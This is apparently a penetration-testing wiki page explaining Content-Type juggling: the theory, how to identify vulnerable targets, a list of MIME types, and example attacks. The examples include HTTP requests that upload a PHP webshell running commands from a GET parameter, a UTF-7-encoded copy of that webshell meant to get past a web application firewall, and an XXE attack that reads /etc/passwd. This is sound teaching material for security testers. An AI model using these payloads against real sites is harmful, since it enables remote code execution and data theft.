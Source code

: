 # Content-Type juggling

## Theory

**Content-Type juggling** exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](file-inclusion/lfi-to-rce/file-upload.md) or [xxe-injection](content-type-juggling.md#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](content-type-juggling.md#examples)).

{% hint style="info" %}
The `Content-Type` header is used to indicate the MIME type of the resource.

* In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
* In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.
{% endhint %}

{% hint style="warning" %}
If the [XCTO (X-Content-Type-Options)](../config/http-headers/#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../config/http-headers/mime-sniffing.md). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.
{% endhint %}

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header **not** present ?
* Can the `Content-Type` header  be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`,  [XXE](xxe-injection.md) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

**One should not stick to this list and always try several Content-Type values.**

<details>

<summary>List of the most common Content-Type values</summary>

{% code title="Type application" %}
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```
{% endcode %}

{% code title="Type audio" %}
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
{% endcode %}

{% code title="Type image" %}
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```
{% endcode %}

{% code title="Type multipart" %}
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```
{% endcode %}

{% code title="Type text" %}
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```
{% endcode %}

{% code title="Type video" %}
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```
{% endcode %}

{% code title="Type vnd" %}
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```
{% endcode %}

</details>

### Example attacks

<details>

<summary>PHP payload upload and RCE</summary>

Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

</details>

<details>

<summary>Bypass a WAF</summary>

Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](content-type-juggling.md#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "**charset juggling**" can be performed.

{% code title="Getting caught by the WAF" %}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```
{% endcode %}

{% code title="Bypassing the WAF" %}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```
{% endcode %}

</details>

<details>

<summary>API attack, leading to XXE</summary>

In the following request, the application normally sends JSON content (`Content-Type: application/json`).&#x20;

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.&#x20;

<img src="../../.gitbook/assets/CT-JUGGLING-3.png" alt="Performing Content-Type juggling" data-size="original">

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](xxe-injection.md)).

<img src="../../.gitbook/assets/CT-JUGGLING-4.png" alt="Crafting a XXE payload to extract /etc/passwd" data-size="original">

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).

</details>

## Resources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee" %}
Content-Type from JSON to XEE
{% endembed %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses" %}
WAF and protections bypasses
{% endembed %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}
